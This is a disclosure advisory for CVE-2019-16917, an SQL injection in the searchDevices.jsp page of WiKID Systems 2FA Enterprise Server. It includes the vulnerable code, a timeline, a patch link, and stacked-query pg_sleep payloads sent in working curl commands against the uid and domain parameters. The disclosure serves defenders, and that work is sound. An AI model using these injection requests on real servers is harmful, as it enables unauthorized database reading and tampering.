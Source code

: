A SQL Injection vulnerability, CVE-2019-16917, was identified on `WiKID Systems 2FA Enterprise Server` through version `4.2.0-b2047`.  The <var>uid</var> and <var>domain</var> parameters, used by **searchDevices.jsp**, are not sanitized before being included in a SQL query thus allowing an authenticated user to create, read, update, or delete information in the database.  

## Patch

* **4.2.0.b2047**: <https://downloads.wikidsystems.com/wikid-server-enterprise-4.2.0.b2047-1.noarch.rpm>

## Timeline

* 14 Sep 2019 - Issue discovered on `WiKID Systems 2FA Enterprise Server 4.2.0-b2032` and disclosed to WiKID Systems.
* 26 Sep 2019 - Issue confirmed by WiKID Systems, Patch Released
* 16 Oct 2019 - Public Disclosure

## Description

The source for **searchDevices.jsp** reveals the `buildSearchWhereClause`.  The <var>uid</var> and <var>domain</var> parameters are retrieved in the `buildSearchWhereClause` function:

~~~
191     private void buildSearchWhereClause(HttpServletRequest request) {
192         where = "";
193         String uid=request.getParameter("uid");
194         String domain=request.getParameter("domain");
~~~

### domain parameter

If the <var>domain</var> parameter is set and <var>uid</var> parameter is not set, <var>domain</var> is included in a query thus allowing SQL injection here:

~~~
203         }else if(!domain.equals("0") && uid==null){
204             where="where domainid="+domain;
~~~

If the <var>uid</var> parameter is set, the <var>domain</var> parameter is included in a query thus allowing SQL injection here:

~~~
205         }else if(uid!=null){
...
214             if(!domain.equals("0")){
215                 where=where+" and domainid="+domain;
216             }
217         }
218     }
~~~

The backend database is Postgres, which supports Stacked Queries.  A value such as `1; select pg_sleep(10);--` will demonstrate the issue the first query will execute followed by a second query instructing the database to sleep; the database and application will hang for 10+ seconds:

~~~{.sh}
SLEEP=10; HOST=$RHOST; COOKIE=$COOKIE; time curl -v -i -s -k  -X 'POST' -H "Host: $HOST" -H "Cookie: JSESSIONID=$COOKIE;" --data-binary "uid=test&domain=1;select pg_sleep($SLEEP);--&action=Search" https://$HOST/WiKIDAdmin/searchDevices.jsp
~~~

### uid parameter

If the <var>uid</var> parameter is set, the logic drops down to following logic where the <var>uid</var> parameter is included in the query:

~~~
205         }else if(uid!=null){
206             uid=uid.toLowerCase().trim();
207             String ask=uid.substring(uid.length()-1);
208             if(ask!=null ){
209 //                uid=uid.substring(0,uid.length()-1);
210                 where="where RTRIM(LOWER(userid)) like LOWER('%"+uid+"%')";
211 //            }else{
212 //                where="where RTRIM(LOWER(userid))=LOWER('"+uid+"')";
213             }
~~~

A request, such as the following, will trigger the issue, causing the application to delay for 10+ seconds:

~~~{.sh}
SLEEP=10; HOST=$RHOST; COOKIE=$COOKIE; time curl -v -i -s -k  -X 'POST' -H "Host: $HOST" -H "Cookie: JSESSIONID=$COOKIE;" --data-binary "uid=1;select pg_sleep($SLEEP);--&action=Search" https://$HOST/WiKIDAdmin/searchDevices.jsp
~~~
